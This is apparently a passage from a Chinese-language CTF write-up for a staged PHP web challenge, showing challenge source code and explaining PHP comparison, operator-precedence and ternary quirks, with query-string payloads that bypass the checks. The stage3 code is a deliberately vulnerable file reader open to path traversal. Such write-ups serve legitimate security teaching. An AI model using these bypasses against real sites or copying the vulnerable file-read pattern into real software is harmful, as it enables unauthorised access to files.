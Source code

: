 payload:
`stage1.php?A[]=1&B[]=3`

### stage2
```php=
<?php
include('config.php');
echo '<h1>👻 Stage 2 / 4</h1>';

$A = $_GET['A'];
$B = $_GET['B'];

highlight_file(__FILE__);
echo '<hr>';

if (isset($A) && isset($B))
    if ($A !== $B){
        $is_same = md5($A) == 0 and md5($B) === 0;
        if ($is_same)
            echo (md5($B) ? "QQ1" : md5($A) == 0 ? "<a href=$stage3?page=swirl.php>Go to stage3</a>" : "QQ2");
        else die('ERROR: $is_same is false');
    }
else die('ERROR: A, B should be given');
```
這題比起 stage1 多用到了一個知識點，在 php 中， = 的運算優先度是高於 and 的，若有以下 expression 時，結果會是 true。因此，在 Line13 我們只需要讓前面的為 true 即可。
![image](https://hackmd.io/_uploads/r1Gf4XRtp.png)
在 Line15 我們會用到的知識點是，三元運算子的錯誤使用，我們先假設 `md5($B)`是 false，`md5($A) == 0` 是 true
```
false ? "QQ1" : true ? "<a href=$stage3?page=swirl.php>Go to stage3</a>" : "QQ2"
```
會先處理前面的 `false ? "QQ1" : true`，因此運算式變這樣。
```
true ? "<a href=$stage3?page=swirl.php>Go to stage3</a>" : "QQ2"
```
payload:
`.php?A=true&B=false`

### stage3
```ph=
<?php
include('config.php');
echo '<h1>👻 Stage 3 / 4</h1>';

$page = $_GET['page'];

highlight_file(__FILE__);
echo '<hr>';
if (isset($page)) {
    $path = strtolower($_GET['page']);
    
    // filter \ _ /
    if (preg_match("/\\_|\//", $path)) {
        echo "<p>bad hecker detect! </p>";
    }else{
        $path = str_replace("..\\", "../", $path);
        $path = str_replace("..", ".", $path);
        echo $path;
        echo '<hr>';
        echo file_get_contents("./page/".$path);
    }
} else die('ERROR: page should be given');
```